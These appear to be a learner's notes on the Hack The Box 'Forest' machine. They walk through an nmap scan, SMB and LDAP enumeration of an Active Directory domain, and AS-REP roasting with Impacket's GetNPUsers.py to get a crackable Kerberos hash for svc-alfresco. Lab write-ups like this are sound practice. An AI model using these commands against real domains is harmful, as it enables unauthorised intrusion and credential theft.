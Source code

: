 let's start with exporting the ip so we can use it faster 
export IP=10.129.95.210
then let's run our nmap scan 
# nmap 
53/tcp   open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-10-08 14:15:42Z)
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?    syn-ack ttl 127
593/tcp  open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped   syn-ack ttl 127
3268/tcp open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped   syn-ack ttl 127
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

from the ports open we can say that it's active directory server running with kerberos

Domain name : htb.local

# smb enum
let's try to login as anonymous to the server [[SMB]]
we are in but it doesn't show any shares #smb

# DNS enum
nslookup
server 
10.129.95.210
127.0.0.1
10.129.95.210
and nothing
# ldap enum

ldapsearch -h 10.129.95.210 -x -s base namingcontexts
![[Pasted image 20211008164648.png]]
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" > ldap.out to dump info from ldap server then we can try to query using 
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" '(object Class=Person)'
ldapsearch -h 10.129.95.210 -x -b "DC=htb,DC=local" '(object Class=Person)' sAMAccountName 


# impakets
[[Impakets]]
trying to do GetNPUsers.py impaket 
GetNPUsers.py -dc-ip $IP -request 'htb.local/' -format hashcat
and we got a ticket!
![[Pasted image 20211008172555.png]]
for the username svc-alfresco
[[00 Progress/Boxes/HTB/Windows/Forest/04 Creds]]

# using hashcat to crack the hash
![[Pasted image 20211008173112.png]]